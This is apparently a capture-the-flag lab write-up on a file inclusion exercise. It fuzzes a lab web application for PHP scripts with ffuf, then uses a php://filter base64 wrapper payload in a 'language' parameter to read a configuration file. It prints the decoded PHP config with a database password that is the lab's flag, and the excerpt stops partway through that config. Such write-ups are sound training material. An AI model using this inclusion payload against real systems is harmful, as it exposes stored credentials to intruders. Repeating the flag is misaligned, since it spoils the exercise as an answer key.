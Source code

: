 - Exercise:
1. Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer
```sh
ffuf -u http://94.237.121.174:51102/FUZZ.php -w Downloads/directory-list-2.3-medium.txt
http://94.237.121.174:51102/index.php?language=php://filter/read=convert.base64-encode/resource=configure

`<?php

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

$config = array(
  'DB_HOST' => 'db.inlanefreight.local',
  'DB_USERNAME' => 'root',
  'DB_PASSWORD' => 'HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}',
  'DB_DATABASE' =
```


